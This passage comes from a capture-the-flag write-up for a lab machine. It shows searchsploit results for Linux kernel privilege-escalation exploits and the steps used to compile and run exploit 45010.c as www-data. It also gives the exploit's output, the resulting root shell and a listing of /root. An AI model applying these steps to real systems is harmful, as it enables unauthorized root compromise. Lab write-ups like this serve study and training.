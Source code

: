 ```
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privilege Escalation                                    | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)                                | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Local Privilege Escalation (KASLR / SMEP)            | linux/local/47169.c
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
### Then I mirrored the exploit "Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation" i.e "linux/local/45010.c" on my current working directory
### After that i uploaded the exploit on the webserver
### Then i compiled the exploit using gcc
```
www-data@ubuntu:/tmp$ gcc 45010.c -o sigwotts
gcc 45010.c -o sigwotts
```
### After compling i ran the binary and it finally we are root!!!
```
www-data@ubuntu:/tmp$ ./sigwotts
./sigwotts
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff9a7136406a00
[*] Leaking sock struct from ffff9a713a306000
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff9a7138e17b40
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff9a7138e17b40
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash
bash
root@ubuntu:/tmp# whoami
whoami
root

```
### and BOOOOOOOOOMMMMMMMMMMM!!!!!!!!!!!!, We are root
### And we got the root flag in /root/root.txt
```
root@ubuntu:/tmp# cd /root
cd /root
root@ubuntu:/root# ls
ls
enc  enc.cpp  enc.txt  key.txt  root.txt  sql.py  t.sh  wfuzz  wordpress.sql
root@ubuntu:/root# cat root.txt
```